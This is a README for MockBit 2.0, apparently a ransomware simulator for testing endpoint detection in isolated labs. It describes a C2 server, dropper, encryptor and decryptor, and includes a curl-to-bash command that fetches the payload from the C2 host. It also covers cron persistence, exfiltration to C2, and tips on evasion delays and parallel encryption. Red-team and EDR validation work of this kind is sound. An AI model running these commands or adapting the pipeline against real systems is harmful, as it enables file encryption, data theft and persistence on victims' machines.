 # MockBit 2.0

**Safe ransomware simulation for EDR validation**

> ⚠️ **Read first:** MockBit is a controlled, fully reversible lab tool. Use it *only* in isolated VMs or air‑gapped networks that you own. Never deploy it on production, shared, or third-party systems.

---

## Table of contents

1. [Overview](#overview)
2. [Quick start (5 minutes)](#quick-start-5-minutes)
3. [Repository structure](#repository-structure)
4. [Manual usage](#manual-usage)
5. [Customization tips](#customization-tips)
6. [Troubleshooting](#troubleshooting)
7. [License & contributions](#license--contributions)
8. [MITRE ATT&CK mapping](#mitre-attck-mapping)

---

## Overview

MockBit behaves like real ransomware (ATT&CK T1486) while keeping you in full control:

| Stage        | Realism                         | Safety net                               |
|--------------|---------------------------------|-------------------------------------------|
| Delivery     | `curl` / `wget` payload         | No exploits, no privilege escalation      |
| Encryption   | AES-256-CBC via OpenSSL         | Key logged → 100 % decryptable            |
| Exfiltration | File list + key fragment        | Only dummy data you create                |
| Persistence  | Optional cron job               | One-liner removal included                |
| Cleanup      | —                               | Built-in decryptor and uninstaller        |

---

## Quick start (5 minutes)

**Lab topology**

```
    +-----------+      +---------------+
    | Attacker  |----->| Victim VM     |
    | (C2 host) |      | (SentinelOne) |
    +-----------+      +---------------+
```

**One-command install (attacker – AlmaLinux 8.10)**

```bash
sudo dnf install -y git python3-pip openssl
git clone https://github.com/Deathcrusher/mockbit_2.0.git
cd mockbit_2.0
chmod +x setup.sh && sudo ./setup.sh
```

**Example output**

```
C2 ready: http://192.168.1.100:8080
Payload URL: http://192.168.1.100:8000/payload_downloader.sh
Test files: /tmp/test_victim (200 items)
```

**Trigger on victim (non-root for maximum EDR visibility)**

```bash
curl -s http://192.168.1.100:8000/payload_downloader.sh | bash
```

Watch SentinelOne raise alerts, then decrypt when the run completes.

---

## Repository structure

```
mockbit_2.0/
├── setup.sh              # Installer & test-file generator
├── c2_server.py          # Flask C2 (beacon, exfil, key log)
├── payload_downloader.sh # Stage-0 dropper
├── ransomware.sh         # Stage-1 encryptor
├── decryptor.sh          # Stage-2 recovery
└── README.md             # This guide
```

> **Note:** `ransomware.sh` replaces the legacy `ransomware_core.sh` referenced in older docs.

---

## Manual usage

Skip `setup.sh` if you prefer to run individual stages.

```bash
# Encrypt only
./ransomware.sh /target/dir http://c2:8080

# Decrypt only
./decryptor.sh /target/dir "KEY" "IV"

# Stop the C2 server
pkill -f c2_server.py

# (Optional) clean up lab artefacts manually
#   - Remove generated cron jobs
#   - Delete /tmp/test_victim or other test directories
```

---

## Customization tips

- **Environment configuration:** update `.env` (or provide `ENV_FILE_PATH=/path/to/file`) to set `C2_URL`, `TARGET_DIR`, and the encrypted file suffix without editing scripts.
- **Cipher suite:** change the `openssl enc -aes-256-*` invocation.
- **Evasion delays:** insert `sleep $((RANDOM % 10))` or similar pauses.
- **Parallelization:** leverage `xargs -P 8 -I {} …` for multi-threaded encryption.
- **C2 endpoint overrides:** export `C2_URL` inline (e.g., `C2_URL=http://192.168.1.5:8080 ./payload_downloader.sh`) for ephemeral tests.

---

## Troubleshooting

| Issue                | Resolution |
|----------------------|------------|
| Port 8080 blocked    | `sudo firewall-cmd --add-port=8080/tcp --permanent && sudo firewall-cmd --reload` |
| No SentinelOne alert | Run as **non-root** and ensure “Deep Visibility” + “Ransomware” policies are enabled. |
| Decrypt fails        | Use the key and IV from the **same run** (check the C2 `/exfil` endpoint or ransom note). |
| Python missing       | `sudo dnf install python3 python3-pip && pip3 install flask` |

---

## License & contributions

- MIT License © 2025 Deathcrusher
- Pull requests welcome (e.g., Windows port, additional TTPs, educational EDR bypass research)

---

## MITRE ATT&CK mapping

- **T1566.002 – Initial Access:** `curl` / `wget` payload delivery
- **T1059.004 – Execution:** Unix shell
- **T1053.003 – Persistence:** Optional cron job
- **T1041 – Exfiltration:** HTTP POST to the C2 server
- **T1486 – Impact:** Data encrypted for impact
